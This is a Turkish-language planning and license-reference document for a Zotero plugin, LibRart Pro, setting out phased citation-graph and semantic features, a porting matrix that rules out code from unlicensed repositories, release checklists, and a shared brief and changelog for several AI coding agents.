**Birincil:** `ZoteroCitationMaps/zotero-citation-map/addon/modules/` (MIT) · **İkincil:** `zotero-openalex/src/modules/openalexStore.ts` (GPL, cache only)

| Kaynak | Hedef |
|---|---|
| `dataSource.js`, `graphBuilder.js` | `src/vendor/zotero-citation-maps/` |
| `openalex.ts`, `openalexStore.ts` | `src/vendor/zotero-openalex/` (store/API) |
| — | `src/utils/openAlexCitationLayer.ts` (yeni) |

1. [ ] `GraphEdge.citationSource = "openalex"` ekle
2. [ ] DOI → OpenAlex Work → `referenced_works` / `cited_by` kenarları
3. [ ] SQLite veya JSON cache (`librart-openalex-cache`)
4. [ ] Pref: mailto, enabled, cacheDays
5. [ ] `buildConnectionGraph` async zenginleştirme (mevcut citation layer ile merge)
6. [ ] UI: atıf alt-katman checkbox'ları (Crossref / OpenAlex)
7. [ ] v1.1: amber "eksik makale" düğümleri (CitationMaps UX)

**Kabul:** DOI'li item seçiliyken OpenAlex kenarları görünür; polite pool mailto pref'ten gider.

### Eski Faz 5 — Çevrimdışı atıf: Thrillcrazyer (iptal)

**Karar:** `Zotero-Citation-Graph-main/` lisanssızdır. Kullanıcı onayı ve
attribution telif izni oluşturmaz; aşağıdaki eski vendor görevleri uygulanmaz.

| Kaynak | Hedef |
|---|---|
| `plugin-core.js`, `graph/*` | `src/vendor/citation-graph/` |
| — | `src/utils/offlineCitationLayer.ts` |

1. [x] İptal — vendor JS alınmayacak
2. [ ] Zotero `item.relations` + DOI cache motoru → kenarlar
3. [ ] Menü: **Araçlar → Atıf Grafiği (çevrimdışı)** veya harita toolbar
4. [ ] Crossref/OpenAlex ile duplicate merge (`makeEdgeId` + source)
5. [x] İptal — lisanslı muadil veya temiz oda uygulama gerekir

**Kabul:** İnternet kapalıyken relations tabanlı kenarlar oluşur.

### Eski Faz 6 — PDF kaynakça atıf (yeniden tasarlanmalı)

**Karar:** `citation_map/` lisanssızdır; kaynak koduna dayalı satır-satır veya
çeviri portu yapılmaz. PDF kaynakça özelliği lisanslı `zotero-reference/pdf.ts`
ve bağımsız gereksinimlerle temiz oda biçiminde tasarlanmalıdır.

| Kaynak | Hedef |
|---|---|
| `citation_map` kaynakları | vendor hedefi yok; kod aktarımı yasak |
| `pdf.ts` | paylaşımlı metin çıkarma |
| — | `src/utils/pdfCitationLayer.ts` |

1. [ ] Son N sayfa metin çıkarma (zotero-reference ile ortak)
2. [ ] Başlık fuzzy eşleme → kütüphane item ID
3. [ ] Arka plan job: `maxPdfs`, progress (zotero-style progress deseni)
4. [ ] Pref: enabled (varsayılan false), maxItems, lastPages
5. [ ] `citationSource: "pdf"`

**Kabul:** PDF son sayfalarından bulunan referanslar suggested kenar olarak görünür.

### Faz 7 — Semantic katman tamamlama (v1.1.0)

**Referans:** `ZotSeek-1.18.0/` (MIT), `ragPaper/` (MIT MCP)

| Kaynak | Hedef |
|---|---|
| ZotSeek WASM worker | `src/vendor/zotseek/` (tam bundle) |
| `ragPaper/mcp_server.py` | Kutuphane `zotero_semantic_bridge.py` genişletme |

1. [ ] `vendoredSemantic.ts` stub → gerçek embedding pipeline
2. [ ] `isVendoredZotSeekReady()` true; offline semantic kenarlar
3. [ ] Kutuphane köprüsü: ragPaper MCP citation_graph export → JSON import
4. [ ] Pref: zotseek vs kutuphane önceliği
5. [ ] Fallback: harici ZotSeek eklentisi algılama (mevcut)

**Kabul:** Pref açıkken semantic kenarlar offline (ZotSeek) veya HTTP (Kutuphane) ile gelir.

### Faz 8 — citegeist + Better Notes workspace (v1.1.1)

**Referans:** `zotero-citegeist/` (GPL), `zotero-better-notes-3.2.6/` (AGPL)

| Bileşen | Yaklaşım |
|---|---|
| citegeist snowball | `citegeistBridge.ts` — menü kısayolu; tam sütun portu opsiyonel |
| Better Notes workspace | `noteWorkspace.ts` — editor hook, wikilink → note layer |

1. [ ] citegeist OpenAlex snowball menü + pref
2. [ ] BN workspace minimal: not ağacı, wikilink parse güçlendirme
3. [ ] `viaNoteSource: "better-notes-wikilink"` production-ready

**Kabul:** Menüden snowball çalışır; BN notları note katmanına yansır.

### Faz 9 — Kutuphane citation köprüsü (v1.2.0)

**Referans:** `citation-graph-openalex-cli/` (MIT), mevcut `zotero_semantic_bridge.py`

| Bileşen | Konum |
|---|---|
| Python CLI sarmalayıcı | `Kutuphane/zotero_citation_graph_bridge.py` (kök, gitignore dışı) |
| LibRart menü | `citationBridge.ts` |

1. [ ] CLI: `neighborhood`, `missing`, `bridges` → JSON stdout
2. [ ] LibRart: gelişmiş analiz menüsü → subprocess → kenar import
3. [ ] Pref: `kutuphane.citationBridge.enabled`

**Kabul:** Köprü açıkken menüden OpenAlex analiz sonucu haritaya aktarılır.

---

## 12. UI değişiklikleri (tüm fazlar)

**Bağlantı Haritası katman paneli:**
```
☑ Etiket   ☑ Elle   ☑ Anlamsal   ☑ Not   ☑ Atıf
                              └─ ☑ Crossref  ☑ OpenAlex  ☑ OpenCitations
```
(Çevrimdışı/PDF atıf alt-katmanları kaldırıldı — §10A'da lisanssız kaynak
yüzünden iptal edildi, temiz-oda karşılığı henüz planlanmadı.)

**Menü yapısı (hedef — §10 güncel faz numaralarıyla hizalı):**
```
LibRart Pro
├── Bağlantı Haritası
├── Etiket Analizi
├── Okuma Panosu              (F4)
├── Araçlar
│   ├── Inciteful Search      (✅ tamamlandı)
│   ├── Güvenli İçe Aktar     (F2 — .bib/.ris)
│   ├── DOCX'te Kullanılanlar (F3)
│   ├── PDF Gelen Kutusu      (F6 — import-only)
│   └── Anki'ye Gönder        (F7)
└── Tercihler
    ├── Atıf katmanları (Crossref ✅ / OpenAlex, OpenCitations)  (F5)
    ├── Obsidian / MarkDB                                        (F8)
    ├── Okuma izleme                                              (F4)
    └── Semantic (ZotSeek / Kutuphane köprüsü)                    (F9)
```

Çevrimdışı atıf grafiği (eski F5) ve OpenAlex "snowball" (citegeist) menü
girişleri **kaldırıldı** — ilki lisanssız kaynak yüzünden §10A'da iptal, ikincisi
§10'un F0–F9 kapsamı dışında "deneysel" kategoriye taşındı (bkz. §10 açıklama
paragrafı). Kutuphane citation CLI köprüsü de aynı gerekçeyle deneysel kaldı;
aktif F0–F9 menüsünde ayrı bir giriş yok.

---

## 13. Lisans ve port kararı matrisi

| Depo | Port | Yöntem |
|---|---|---|
| zotero-markdb-connect | ✅ | vendor (MIT) |
| zotero-reading-flow | ✅ | vendor (MIT) |
| ZoteroCitationMaps | ✅ | vendor (MIT) |
| zotero-openalex | ✅ | vendor store only (GPL) |
| Zotero-Citation-Graph | ❌ | lisans yok; yalnız mimari inceleme / temiz oda |
| citation_map | ❌ | lisans yok; kod ve çeviri-port yasak / temiz oda |
| zotero-citegeist | ✅ | bridge/menu (GPL) |
| zotero-better-notes | ✅ | seçici vendor (AGPL) |
| ZotSeek | ✅ | vendor (MIT) |
| ragPaper | ✅ | köprü (MIT) |
| scite-zotero-plugin | ❌ | **port yok** — MCP `scite_*` veya `zotero-open-citations`/`zotero-citation-tally` (§7) |
| Chartero, zotero-career-tracker | ❌ kod | UX desen only (AGPL) |

---

## 14. Eski bağımlılık grafiği — tarihsel

> Güncel bağımlılık zinciri §10'daki akış şemasıdır.

```
F0 (test)
 └── F2 (markdb) ──┐
 └── F3 (reading) ─┼──► F4 (OpenAlex) ──► F5 (offline) ──► F6 (PDF)
                   │                              │
                   └──────────────────────────────┼──► F7 (semantic)
                                                  └──► F8 (citegeist/BN)
                                                       └──► F9 (Kutuphane CLI)
```

---

## 15. Doğrulama checklist (her güncel faz sonu)

```bash
cd zotero-eklentiler/kaynak
npm run build
npm test                    # F0 sonrası
```

**Zotero manuel:**
- [ ] Eklenti manifestte ilan edilen her ana Zotero sürümünde yüklenir
- [ ] Bağlantı Haritası açılır, katman toggle çalışır
- [ ] Yeni faz özelliği pref ile açılıp kapanır
- [ ] `onShutdown` — notifier/menu leak yok
- [ ] tr-TR / en-US locale eksiksiz (kritik stringler)
- [ ] Dış servis timeout/hata durumu görünür; gönderilecek veri önizlenir
- [ ] Toplu/kalıcı işlem fark önizlemesi ve idempotans testi geçer

---

## 16. Release kapısı ve sürümleme

Sürüm numarası faz başlamadan rezerve edilmez. Release ancak F0 kapıları ve ilgili
faz kabul ölçütleri geçince hazırlanır. `sanaatchi/zotero-librart-pro-releases`
public deposu, SHA-512 `update_hash` ve Zotero içinden gerçek güncelleme testi
doğrulanmadan `npm run gh-release` çalıştırılmaz.

### Eski sürüm/sprint tablosu — tarihsel

> Aşağıdaki tablo önceki grafik-ağırlıklı planı gösterir; güncel taahhüt değildir.

| Faz | Sürüm | Release notu |
|---|---|---|
| F0 | 1.0.33 | test altyapısı |
| F2 | 1.0.34 | Obsidian markdb backlink |
| F3 | 1.0.35 | okuma panosu + timeline |
| F4–F6 | 1.0.36–38 | atıf yığını |
| F7–F9 | 1.1.0–1.2.0 | semantic + köprüler |

Eski hedef: `npm run gh-release` → `sanaatchi/zotero-librart-pro-releases`

**İlk sprint (2 hafta):** Hafta 1 → F0 (1-2 gün) → F2 markdb vendor+note layer (2-3 gün) → F3
reading-flow veri modeli (2 gün). Hafta 2 → F4 OpenAlex CitationMaps motoru (4-5 gün) →
`VENDOR-SOURCES.md` güncelle → v1.0.36 release adayı.

## 17. Sonraki adım

**Sıradaki ve tek yetkili faz:** Güncel §10.1'deki F0 kalite ve yayın kapısı.
F0 tamamlanmadan vendor portu veya yeni kullanıcı özelliği başlatılmaz. Sonraki
iş F1 çekirdek stabilizasyonudur; fazlar paralel yürütülmez.

**Kod portu öncesi:** Test + typecheck + build + provenance kontrolü geçmeli;
yeni vendor için `VENDOR-SOURCES.md` satırı eklenmeli.

**Bu belgeyi güncelle:** Faz başlangıç/bitiş, lisans teyidi veya yeni referans kararında yalnız §0,
ilgili faz (§10–§11 / §21) ve üstteki değişiklik günlüğü.

---

## 18. Mimari kurallar (Cursor + Claude + Codex ortak)

### Büyüyen modüller (refactor adayı)

| Dosya | ~satır | Risk |
|---|---:|---|
| `connectionMapRenderer.ts` | 1.891 | çizim + etkileşim + durum iç içe |
| `tagDashboard.ts` | 690 | analiz + kalıcı işlem aynı yüzeyde |
| `connectionSemanticLayer.ts` | 560 | uzak/yerel arama + graf modeli |
| `connectionNoteLayer.ts` | 493 | not çıkarımı + bağlantı yazımı |
| vendor `zotero-reference/views.ts` | 1.347 | upstream UI karışık |
| vendor `zotero-reference/api.ts` | 740 | geniş servis yüzeyi |

Yeni kod dört sınıra ayrılmalı: (1) alan modeli/doğrulama, (2) Zotero adaptörleri,
(3) uzak/yerel istemciler, (4) UI/render.

### FeatureRegistry ve adaptörler

- Reader özel alanları (`_readers`, `_iframe`, …) tek `zoteroUiAdapter` arkasında.
- Yeni özellikler doğrudan menü çoğaltmaz; `FeatureRegistry` bağlam (`item`, `collection`,
  `reader`, `tools`) + uygunluk + komut üretir.
- Küçük portlar: `ZoteroItemPort`, `HttpPort`, `PreferencePort` — birim test için.

### Güvenlik ve veri bütünlüğü

- YAML eylem içe aktarımı = kod çalıştırma sınırı → şema, boyut, kuru koşu, uyarı.
- Related-item iki yönlü yazım tek transaction veya onarım kuyruğu.
- Uzak HTTP: timeout, host allowlist, veri minimizasyonu, alan önizlemesi.
- Watch-folder (gelecek F10): ilk sürüm import-only; taşıma/silme yok; disk kopunca dur.

### Provenance (her vendor/port)

| Yerel hedef | Upstream | Commit | SPDX | Tür | Değişiklik |
|---|---|---|---|---|---|
| `src/...` | `owner/repo:path` | SHA | MIT/AGPL | vendor/port/clean-room | kısa not |

Lisanssız kaynaklardan kod/özgün ifade aktarılmaz (§1a); davranış clean-room yazılabilir.

---

## 19. UX ilkeleri

- Tek `LibRart Pro` bilgi mimarisi; öğe menüsü = seçime özel, Araçlar = kütüphane geneli.
- Tercihler: `Genel / Eylemler / Entegrasyonlar / Gelişmiş`.
- Etiket Panosu: `analiz → önizleme → uygula → sonuç/geri al`.
- Bağlantı Haritası: `Keşif / Düzenleme / Dışa aktarma` kipleri (F8 öncesi renderer ayrımı).

| Referans | Örüntü | LibRart karşılığı |
|---|---|---|
| `scholar-sidekick-zotero` | doğrulama tablosu → seçili import | F2 Güvenli İçe Aktar |
| `zotero-watch-folder` | sihirbaz + güvenlik freni | F6 PDF Gelen Kutusu |
| `zotero-tag-cited` | DOCX → etiket | F3 DOCX kullanılanlar |
| `zotero-reading-flow` | durum sütunu | F4 |
| `notero` | sync durumu göstergesi | entegrasyon paneli |
| `zotero-annotation-manage` | seçime yakın eylem | Reader UX |

---

## 20. Özellik çakışmaları (yeni port yapma)

| Alan | Çakışan referanslar | Karar |
|---|---|---|
| Dosya yaşam döngüsü | watch-folder, zotmoov, attanger, zotero-file | Tek Dosya Hizmeti; F6 import-only |
| Metadata doğrulama | scholar-sidekick, refchecker, shortdoi, zotadata | Tek doğrulama hattı |
| Not/MD | better-notes, mdnotes, zotlit, MdBundle | Tek çıktı şeması |
| Citation graph | ~19 depo | Yeni klon yok; güncel F5 yalnız lisanslı adaptörler |
| AI/RAG | ~11 depo | Yeni klon yok; güncel F9 |
| RefChecker / systematic-reviewer | ayrı servis | Vendor değil; HTTP köprü veya desen |

---

## 21. Önceki F10+ eşlemesi — güncel plana taşındı

Bu özellikler artık bekleyen F10+ değildir; güncel §10 içinde F2, F3, F6 ve F7
olarak öne alınmıştır. Aşağıdaki tablo yalnız eski numara eşlemesini korur:

| Faz | Sürüm | İçerik | Referans |
|---|---|---|---|
| F10 | v1.3 | Güvenli `.bib/.ris` import + DOCX kullanılanlar | scholar-sidekick, zotero-tag-cited |
| F11 | v1.3 | PDF Gelen Kutusu (import-only) | zotero-watch-folder |
| F12 | v1.4 | Anki köprüsü | yanki-connect |
| F13 | v1.4+ | RefChecker HTTP servisi; systematic-reviewer sınırlı deneme | refchecker, systematic-reviewer |

---

## 22. Kabul ölçütleri (tüm fazlar)

- Özellik ≤2 tıklama, yalnız uygun bağlamda görünür.
- Toplu/kalıcı değişiklik önce öğe sayısı + alan farkı gösterir.
- İşlemler idempotent; dış servisler bağlantı/timeout/hata durumu sunar.
- Tüm metin Fluent; özel Zotero API adaptör dışına çıkmaz.
- Test + typecheck + build geçmeden release yok; Zotero 8/9 smoke zorunlu.
- Provenance satırı olmadan vendor kabul edilmez.
- Yıkıcı dosya/kütüphane işlemi varsayılan kapalı.

§15 doğrulama checklist ile birlikte uygulanır.

---

## 23. Orijinal kod port brifi (Cursor · Claude · Codex)

AGPL/MIT kaynaklardan doğrudan kod portu için **tüm ajanların** ortak brifi. Güncel
faz sırası ve teslim koşulları §10'dadır; §10A–§11 yalnız tarihsel eski plandır.
Bu bölüm modül→dosya eşlemesini ve attribution kuralını tutar.

### 23.1 Attribution (zorunlu)

Kod kopyalarken/uyarlarken dosya başında orijinal telif/lisans notunu koru. Yeni dosyalarda
üstte kısa kaynak satırı, örn.:

```ts
// Adapted from zotero-style (AGPL-3.0) src/modules/tags.ts
```

Port tamamlandığında `VENDOR-SOURCES.md` satırı ekle; §0 vendor tablosunu güncelle.

### 23.2 Tamamlanan portlar (F1 ✅)

| Upstream | LibRart hedef | Not |
|---|---|---|
| `inciteful-zotero-plugin` | `src/vendor/inciteful/`, `incitefulBridge.ts` | Menü + harici API |
| `zotero-reference` | `src/vendor/zotero-reference/` (`api`, `utils`, `pdf`, `views`, `connectedpapers`) | `doiResolver.ts`, `referenceExtractor.ts`, PDF popup |
| `zotero-style` | `src/vendor/zotero-style/tagGraph.ts`, `connectionNotify.ts` deseni | Tag graph katmanı |
| `ZotSeek` | `src/vendor/zotseek/` (kısmi), `connectionSemanticLayer.ts` | Kutuphane köprüsü öncelikli |
| `zotero-better-notes` | henüz minimal | F8 — §11 Faz 8 |

### 23.3 Modül eşlemesi (referans — port sırasında)

**zotero-style** (`referanslar/zotero-style-6.0.8/src/modules/`)

| Kaynak | LibRart | Durum |
|---|---|---|
| `tags.ts` | `connectionGraph.ts` / tag katmanı | ✅ tagGraph vendor |
| `events.ts`, `progress.ts` | `connectionNotify.ts` observer deseni | kısmi |
| `easyscholar.ts` | `doiResolver.ts` rate-limit/cache deseni | inceleme |
| `views.ts` (rating sütun) | `ItemTreeManager.registerColumn` | planlı |

**zotero-reference** (`referanslar/zotero-reference-1.7.2/src/modules/`)

| Kaynak | LibRart | Durum |
|---|---|---|
| `api.ts`, `utils.ts` | `doiResolver.ts` | ✅ |
| `pdf.ts` | `referenceExtractor.ts` | ✅ menü bağlı |
| `tip.ts`, `views.ts` | PDF in-reader popup | ✅ |
| `connectedpapers.ts` | `connectionCitationLayer.ts` | kısmi (Crossref) |

**zotero-better-notes** (`referanslar/zotero-better-notes-3.2.6/src/`)

| Kaynak | LibRart | Öncelik |
|---|---|---|
| `editor/*`, `workspace/*` | `connectionNoteLayer.ts` genişletme | Güncel F8 — §10 |
| `template/*`, `export/*`, `sync/*` | yeni modüller | F8 sonrası |

**ZotSeek** (`referanslar/ZotSeek-1.18.0/src/worker/embedding-worker.ts`)

| Kaynak | LibRart | Not |
|---|---|---|
| WASM embedding worker | `src/vendor/zotseek/` | İsteğe bağlı; Kutuphane Ollama köprüsü güçlü alternatif |

**inciteful-zotero-plugin** — ✅ tamamlandı (`incitefulCore.ts`).

### 23.4 Port yasak / yalnız mimari inceleme

| Kaynak | Karar |
|---|---|
| `Zotero-Citation-Graph` | Lisans yok — §11 eski F5 iptal; temiz oda veya lisanslı muadil |
| `citation_map`, `Local-Citation-Graph` | §1a — kod/çeviri port yok |
| `scite-zotero-plugin` | §7 — port yok; `zotero-open-citations` / MCP alternatif |

Atıf katmanı genişletme: güncel F5 için §10 ve §13 lisans matrisi. Lisanssız
offline/PDF taslaklarının iptal geçmişi §11'dedir; oradan iş başlatılmaz.

### 23.5 Doğrulama (her modül sonrası)

1. `npm run build` — TypeScript hatasız
2. Attribution yorumu her değişen/vendor dosyada
3. Bağlantı Haritası katmanları (`tag` / `note` / `semantic` / `citation`) çalışır; public API imzası bozulmaz
4. Yeni UI → Fluent (`addon/locale/`) + menü/pref kaydı
5. Tam checklist: §15 · kabul ölçütleri: §22

### 23.6 Bilinen yan görev (release)

`scripts/publish.mjs`: "update" etiketli release silinip yeniden oluşturulunca GitHub
`/releases/latest` yanlış yönlenebilir. Düzeltme: update release'i güncelle veya latest
işaretini sürümlü release'e taşı — F0 release kapısı (§16) ile birlikte ele alınır.

---

## Belge haritası

| Dosya | Rol | Güncelleme |
|---|---|---|
| **`AGENTS.md`** | Üç ajan girişi (Cursor · Claude · Codex) | Giriş akışı değişirse |
| **`REFERANS-ANALIZ.md`** (bu dosya) | SSOT — lisans, F0–F9, §23 port brifi, kabul | **Her analiz/karar burada** |
| `VENDOR-SOURCES.md` | Fiili vendor tablosu (port sonrası) | Vendor eklendiğinde |
| `CLAUDE.md` | Claude Code kısa giriş → `AGENTS.md` | Giriş linki only |
| `../README.md` | 91 depo envanter tablosu | Yeni klon satırı |
| Stub'lar (aşağı) | → bu dosya | **İçerik ekleme yasak** |

Stub: `../REFERANS-ANALIZI.md`, `../referanslar/ANALIZ.md`, `ENTEGRASYON-PLANI.md`,
`CURSOR-GOREV-ORIJINAL-KOD-ENTEGRASYONU.md`, `CITATION-GRAPH-ENTEGRASYON.md`,
`KALITE-REFERANSLARI.md`, `REFERANS-BEKLEYEN-OZELLIK.md`.

---

## Değişiklik günlüğü

### 2026-07-29 — §12 UI planı güncel fazlarla hizalandı (`043dba9`)

Aktif §12 menü/katman paneli §10 ile uyumlu hale getirildi; eski F5 (çevrimdışı
graf) ve F8 (citegeist snowball) girişleri kaldırıldı.

### 2026-07-29 — Üç ajan ortak giriş

`AGENTS.md` eklendi; port brifi §23'e taşındı; `CURSOR-GOREV-ORIJINAL-KOD-ENTEGRASYONU.md`
stub. Kök `AGENTS.md`, `zotero-entegrasyon.mdc`, `kutuphane.mdc` güncellendi.

### 2026-07-29 — Claude Code: commit + P0 tamamlandı

Kullanıcı onayıyla `kaynak/` reposunda commit attım (daha önce `hooks.ts`/`menu.ts`
commit edilmemiş durumda kalmıştı, artık temiz):

1. **`accd75f`** — Inciteful entegrasyonu (Cursor'ın çalışması) commit edildi.
2. **`2a0bdbd`** — Bu dosyanın 4 dosyadan konsolidasyonu (CITATION-GRAPH-ENTEGRASYON.md,
   KALITE-REFERANSLARI.md, REFERANS-BEKLEYEN-OZELLIK.md, ENTEGRASYON-PLANI.md → stub) +
   VENDOR-SOURCES.md/CURSOR-GOREV güncellemeleri commit edildi.
3. **`6a470bc`** — **P0 tamamlandı:** `referenceExtractor.ts`'teki `extractReferencesFromPdf()`
   daha önce hiçbir menüye bağlı değildi (bu belgenin ilk taslağından beri açık kalan tek görev).
   Yeni `onExtractReferences()` → aktif PDF okuyucudan kaynakçayı çıkarır, ebeveyn öğeye not
   olarak ekler, Araçlar menüsüne "Kaynakçayı çıkar" eklendi, tr-TR/en-US Fluent anahtarları
   eklendi. Ayrıca `scite-zotero-plugin` VENDOR-SOURCES.md'ye eklendi (§1a/§7 ile tutarlı
   "vendor/port yasak" — daha önce sadece bu dosyada vardı, tabloda eksikti).

`npm run build` üç commit'ten sonra da temiz geçti (yalnızca önceden var olan it-IT/zh-CN
locale eksikliği uyarıları, benim eklediğim hiçbir şeyden kaynaklı değil).

**Cursor/Codex için not:** `git log` artık 5 commit (`6a470bc` HEAD). Yeni çalışmaya bu commit'in
üzerinden devam edebilirsiniz — `hooks.ts`/`menu.ts` artık temiz, çakışma riski yok. Manuel
Zotero testi (F0 sonrası `npm test` dahil) hâlâ kullanıcı tarafında yapılmadı.
